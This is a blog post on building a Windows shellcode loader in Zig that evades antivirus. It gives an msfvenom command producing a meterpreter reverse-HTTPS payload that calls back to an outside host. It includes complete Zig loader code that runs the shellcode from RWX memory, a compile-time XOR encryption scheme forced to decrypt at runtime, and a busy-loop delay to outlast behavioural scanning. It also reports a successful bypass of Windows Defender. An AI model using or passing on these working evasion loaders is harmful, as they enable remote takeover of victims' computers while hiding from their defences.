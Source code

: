 ```yaml
---
layout: post
title: "Bypassing Windows Defender with Zig"
author: "Michal"
---
```



Zig is a low-level language that aims to become a C-replacement. As I usually did all my offensive security payloads in C, I was pretty interested to try the features of a newer programming language and whether they can replace C as my go-to. In my blogs I will try to showcase features of Zig on few examples of offensive code.

With that said, let's get down to the "Hello world!" of offensive security - a simple shellcode loader. I'm gonna use staged meterpreter, generated with `msfvenom -p windows/x64/meterpreter/reverse_https -o src/meterpreter.bin LHOST=192.168.56.1 LPORT=443`. I chose meterpreter because it's been around for long so all decent AV products should detect its static signatures(how sad I was to found out this is not true), which makes it perfect for our examples. For those new to this, meterpreter is a malware that can remotely control a computer. 

 The loader consists of three phases:
1. Allocate writable and executable memory with `VirtualAlloc`.
2. Copy the shellcode into this memory. 
3. Cast the memory as a function pointer and call it.

Let's get directly to the Zig code:
```zig
const std = @import("std");
const win32 = @import("win32");

const VirtualAlloc = win32.system.memory.VirtualAlloc;
const VIRTUAL_ALLOCATION_TYPE = win32.system.memory.VIRTUAL_ALLOCATION_TYPE;
const PAGE_EXECUTE_READWRITE = win32.system.memory.PAGE_EXECUTE_READWRITE;

pub fn main() !void {
    // We include the compile as a string at compile time
    const shellcode = @embedFile("meterpreter.bin");
    // Allocate RWX memory for the shellcode
    const allocated_memory_ptr: [*]u8 = @ptrCast(VirtualAlloc(null, shellcode.len, VIRTUAL_ALLOCATION_TYPE{ .COMMIT = 1 }, PAGE_EXECUTE_READWRITE).?);
    // We copy the shellcode to the memory.
    @memcpy(allocated_memory_ptr, shellcode);
    // Cast the RWX memory to a function pointer and then call it.
    const shellcode_fn: *const fn () void = @ptrCast(allocated_memory_ptr);
    shellcode_fn();
}
```

The first line of main function uses the `embedFile` builtin. This Zig builtin includes a whole binary file into our code as a string. 
This is a huge difference from C, where you would need to encode meterpreter as a C string:
![meterpreter included as a C file]({{site.url}}/assets/zig01/meterpreter_c.png)

On the next line, we allocate the memory. For WinAPI bindings I use the project [marlersoft/zigwin32](https://github.com/marlersoft/zigwin32) , and it's very simple to call a C function. We need to cast the type to `[*]u8`, which means
a pointer to multiple characters. Zig distinguishes between single element pointers and array pointers, which makes it simple to state your intent.

After that, we copy the shellcode and call a function pointer to it. This is enough for working shellcode loader and we can run meterpreter on a machine with Defender turned off.  However, to my big surprise, the loader still gets undetected by many AV products:
![basic shellcode loader virus total]({{site.url}}/assets/zig01/basic_vt.png)

 Welcome to year 2024 when only 24 AVs are capable of finding embedded meterpreter. I would be really happy to tell you that it's because of some dark optimizations that Zig performed, but to my disappointment the code is straightforward and the whole shellcode is embedded in `.rdata`.

![basic shellcode disassembly]({{site.url}}/assets/zig01/basic_disassembly.png).

### Compile time encryption
The first big problem of our shellcode is that it's a sitting duck for signature detections in the `.rdata` section. To achieve better results and bypass static signatures, we need to decrypt it during runtime. 
Zig offers us the `comptime` keyword, which enables us to run Zig code at compile time. This is similar to C macros or C++ template metaprogramming, but it is easier to read and write. The cool thing about `comptime` is that Zig *must* perform any such operations during compilation time. We can use `comptime` to implement xor encryption of the shellcode.

```zig
const std = @import("std");
const win32 = @import("win32");

const VirtualAlloc = win32.system.memory.VirtualAlloc;

const VIRTUAL_ALLOCATION_TYPE = win32.system.memory.VIRTUAL_ALLOCATION_TYPE;
const PAGE_EXECUTE_READWRITE = win32.system.memory.PAGE_EXECUTE_READWRITE;

//encrypt is a function that takes a compile time known string, and returns it encrypted
fn encrypt(comptime string: []const u8, k: u8) [string.len]u8 {
    // Zig has a default compilation timeout
    // We override it  to a big number so that the whole encryption can happen
    @setEvalBranchQuota(100000000);
    var encrypted_string: [string.len]u8 = undefined;
    // This loops over all characters of string - chr, and idx is the index
    for (string, 0..) |chr, idx| {
        // We do not want to xor with a single value, so we use also the index
        const key: u8 = @truncate((idx * 83) % 256);
        encrypted_string[idx] = chr ^ key ^ k;
    }
    return encrypted_string;
}

// This is very similar to the encrypt function
fn decrypt(mem: []u8, s: []const u8, k: u8) void {
    for (s, 0..) |chr, idx| {
        const key: u8 = @truncate((idx * 83) % 256);
        // The one difference is that this function also calls shouldRun, which should return 0
        // shouldRun is a function that ensures this is evaluated during runtime
        // this is how we prevent Zig from optimizing decryption out
        mem[idx] = chr ^ key ^ k + shouldRun();
    }
}
fn comptimeObfuscation(comptime s: []const u8) [s.len]u8 {
    const key = 0x42;
    // We call encrypt at comptime
    const enc_str = comptime encrypt(s, key);
    var ret_array: [s.len]u8 = [_]u8{0} ** s.len;
    decrypt(&ret_array, &enc_str, key);

    return ret_array;
}

fn shouldRun() u8 {
    // The value of BeingDebugged is determined during runtime
    const peb = std.os.windows.peb();
    return peb.BeingDebugged;
}

pub fn main() !void {
    // We include the shellcode as a string at compile time, and encrypt it
    const shellcode = comptimeObfuscation(@embedFile("meterpreter.bin"));
    const allocated_memory_ptr: [*]u8 = @ptrCast(VirtualAlloc(null, shellcode.len, VIRTUAL_ALLOCATION_TYPE{ .COMMIT = 1 }, PAGE_EXECUTE_READWRITE).?);
    @memcpy(allocated_memory_ptr, shellcode[0..]);
    const shellcode_fn: *const fn () void = @ptrCast(allocated_memory_ptr);
    shellcode_fn();
}
```

Our goal is to invoke the encrypt function during compile time -- Zig's `comptime` keyword enforces this. However, from my experiments, Zig was very eager to also run the decryption at compile time, and thus leaving the shellcode decrypted in the binary. From compiler's point of view this is an obvious optimalization, however we do not want this. The most consistent way to ensure runtime decryption is to make the `decrypt` function depend on any runtime value, 
and I chose the `BeingDebugged` which should be 0 unless program is debugged. The Ghidra decompiler proves that the compiled executable really decrypts the shellcode at runtime:
![disassembly of encrypted shellcode loader]({{site.url}}/assets/zig01/encrypted_disassembly.png)

The results from VirusTotal are not very encouraging. The encryption of shellcode only managed to bypass 5 products, which means we still have a long way to go.
![encrypted shellcode loader virus total]({{site.url}}/assets/zig01/encrypted_vt.png)

## Behavior 
Our encryption is robust and I'm pretty sure that no signatures can be found for our payloads. We can determine which products perform behavior checks by timing them out. To do this, I found a [md5 brute force snippet](https://www.reddit.com/r/adventofcode/comments/szphy0/2015_day_04zig_some_tips_to_solve_the_problem/) online. We will use this snippet to delay decrypting and executing the payload. I will not explain the code, as it's just a simple md5 hash cracking. The point is to use *any* slow computation without relying on functions that can be hooked by AV, such as common sleep functions.

Adding the delay, we can get to only 1 detection, and by AV that I've never actually seen used:
![encrypted shellcode loader with sleep virus total]({{site.url}}/assets/zig01/sleep_vt.png)

Of course, this does not mean that the payload would get executed in a real-world system. The behavior of meterpreter is pretty well known, and Windows defender consistently blocks it once it gets decrypted. Actually, in this case the Windows Defender was very good at detecting the staging mechanism - we could get initial beacon, but the meterpreter was killed immediatly after. I then decided to also play with stageless.

## Stageless meterpreter
While the shellcode of staged meterpreter is very small, it is at the cost of downloading the actual shellcode from the metasploit server. We can also use stageless variant, which comes with the whole meterpreter in the shellcode, thus making it much bigger. This also means more signatures(no encryption and no sleep):
![ stageless loader virus total]({{site.url}}/assets/zig01/stageless_vt.png)

After going through the hoops of encryption and sleep, we get to 8 detections:
![encrypted stageless loader with sleep virus total]({{site.url}}/assets/zig01/stageless_enc_sleep.png)

The reason for these detections is that the `.rdata` section is filled with 200KB of random nonsense and it's easy for any ML algorithm to pick up the entropy anomaly.
![encrypted shellcode loader entropy]({{site.url}}/assets/zig01/encrypted_entropy.png)

The interesting thing is that stageless meterpreter actually bypasses Windows Defender and we get the connection. This means that the detection really was in the staging protocol.

What I wanted to do next is to reduce this entropy - my idea was to simply prepend each encrypted byte with bunch of zeroes. However, this was not possible as Zig's `comptime` eats a *lot* of RAM. Even compiling the previous encryption took around 5 minutes for the stageless meterpreter, indicating that Zig's `comptime` is not yet suitable for very large payloads. This is a known issue with Zig compiler and something that is being worked on.

This basically encompasses my overall feelings of Zig - I like the language, and I think it has big potential for offensive tooling, but it's obvious that the language is still largely in development. Features of this language get added/removed pretty often, and new versions often bring breaking changes. Many codes found on the internet do not work anymore and the code in this blog might not work with the next release of Zig. I'm very hopeful for the future though, especially once the `comptime` memory issues get resolved. I like the language and I plan to write more blogs about it. My next blog will be about using `comptime` for hashing and a custom GetModuleHandle function.

The last thing that I loved about the whole experience was the ease of cross compilation from Linux to Windows. You don't need to involve mingw, the output platform is just a compiler flag for Zig compiler. All code for this blog can be found in my [GitHub](https://github.com/michal-sladecek/zig_experiments). Changes might be necessary to run it.









